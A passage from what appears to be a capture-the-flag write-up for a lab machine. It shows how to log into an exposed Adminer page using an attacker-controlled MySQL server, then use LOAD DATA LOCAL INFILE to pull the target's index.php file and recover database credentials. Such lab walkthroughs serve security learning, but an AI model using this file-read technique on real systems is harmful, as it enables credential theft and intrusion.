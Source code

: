 ### #2: Connecting Adminer To Our Server

Go to `http://10.10.10.187/utility-scripts/adminer.php` and log in with the following information:

* Server: 10.10.X.X
* Username: mysqlsec
* Password: password

The login is sucessful and we see the admin interface.

![adminer admin](images/admirer/adminerlogin.jpg)

### #3: Loading Local File

Through Adminer, let's create a database `test` with one table called `test`.

Before we try loading a local file, let's start **Wireshark** and capture packets passing through `tun0`.

Now, click `SQL Command`, and use it to execute the code below.

```
LOAD DATA LOCAL INFILE '/var/www/html/index.php' 
INTO TABLE test.test
```

The command above tries to load the local file `index.php` into a table `test` in a database `test`. 

We are loading `index.php` because the backup copy we found in FTP shows that it contains database credentials. While the backup copy password is invalid, the live version might have the correct password.

![loading local file](images/admirer/loadlocalfile.jpg)

